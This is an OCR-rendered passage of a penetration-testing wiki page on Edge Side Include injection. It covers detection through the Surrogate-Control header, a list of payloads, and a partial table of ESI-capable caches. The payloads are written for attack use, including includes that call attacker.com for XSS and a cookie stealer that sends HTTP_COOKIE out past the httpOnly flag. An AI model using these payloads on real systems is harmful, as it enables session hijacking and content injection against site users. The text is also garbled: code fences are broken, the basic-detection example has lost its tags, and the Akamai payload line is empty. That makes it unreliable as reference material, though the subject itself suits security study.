 ```
## Edge Side Inclusion

There is a problem **caching information or dynamic applications** as part of the content may have **varied** for the next time the content is retrieved. This is what **ESI** is used form, to indicate using ESI tags the **dynamic content that needs to be generated** before sending the cache version.\
If an **attacker** is able to **inject an ESI tag** inside the cache content, then, he could be able to i**nject arbitrary content** on the document before it's sent to the users.

### ESI Detection

The following **header** in a response from the server means that the server is using ESI:

```
Surrogate-Control: content="ESI/1.0"
```
```
If you can't find this header, the server **might be using ESI anyways**.\
A **blind exploitation approach can also be used** as a request should arrive to the attackers server:

```javascript
// Basic detection
hello
// If previous is reflected as "hello", it's vulnerable

// Blind detection
<esi:include src=http://attacker.com>

// XSS Exploitation Example
<esi:include src=http://attacker.com/XSSPAYLOAD.html>

// Cookie Stealer (bypass httpOnly flag)
<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response

```
```
### ESI exploitation

[[https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/|GoSecure created]] a table to understand possible attacks that we can try against different ESI-capable software, depending on the functionality supported:

- **Includes**: Supports the `<esi:includes>` directive
- **Vars**: Supports the `<esi:vars>` directive. Useful for bypassing XSS Filters
- **Cookie**: Document cookies are accessible to the ESI engine
- **Upstream Headers Required**: Surrogate applications will not process ESI statements unless the upstream application provides the headers
- **Host Allowlist**: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

|         **Software**         | **Includes** | **Vars** | **Cookies** | **Upstream Headers Required** | **Host Whitelist** |
| :--------------------------: | :----------: | :------: | :---------: | :---------------------------: | :----------------: |
|            Squid3            |     Yes      |   Yes    |     Yes     |              Yes              |         No         |
|        Varnish Cache         |     Yes      |    No    |     No      |              Yes              |        Yes         |
```